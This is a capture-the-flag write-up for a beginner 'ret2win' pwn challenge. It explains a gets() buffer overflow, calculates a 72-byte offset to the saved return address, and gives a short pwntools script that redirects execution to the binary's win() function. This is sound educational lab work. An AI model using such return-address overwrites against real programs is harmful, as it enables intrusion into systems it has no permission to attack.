 ## Challenge Name : Returning to Winning
Category: PWN
Points:  50
Difficulty: Easy

Artifact files:
* [ret2win](ret2win)

Description: A simple pwn challenge

### Observations

For anyone who has a bit of experience in pwn, the name of this challenge pretty much gives it away instantly.
ret2win is the most basic type of buffer overflow challenge, replacing the return address of the function with
an arbitrary one of our own. Usually with one present in the binary made to print us the flag.

Running the binary, we just get prompted with a single sentence : "Give me something and shall give you something in return."
Then taking our input and exiting after.

Now looking at the source code using radare2, we can see that the main function redirects it's flow to a vulnerable function
which prints the first sentence and takes input using the **gets()** method. If you're familiar with this again, you'll know that
gets doesn't do any boundary check so this is highly vulnerable to buffer overflows.

![img](./images/vuln.png)

We can also see our buffer is stored at rbp-0x40 which is 64 bytes from the base of the stack. Knowing that
rbp has also been pushed before that and is of size 8 bytes we can add those two lengths together and get our
RIP offset : 64 + 8 = 72

We can also use a cyclic as an alternate method but it's kind of overkill in this scenario.

And now all we need is a **win()** function. This is where I started to be confused since my goto tool,
radare2, didn't find it at first so I had to check on other softwares to find it. Ghidra worked the best for me,
still confused as to why it didn't show up on most other tools so if anyone wants to explain it to me, you're more
than welcome.

![img](./images/ret2win_func.png)

So now we have all we need ! The offset to RIP with 72 bytes and the address of our win() function to return to at 0x00401196
Now same as before we can make it with a python one liner but just for a cleaner writeup i'll make a script again.

### Exploitation

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./ret2win')

if args.REMOTE:
    io = remote() # put your remote here
else:
    io = process()

io.sendlineafter(b'.', b'A'*72 + pack(0x00401196))
io.interactive()
io.close()
```

After running the script, we get the following output : 
![img](./images/win.png)

And that's it for this challenge :)

[Back](../../README.md)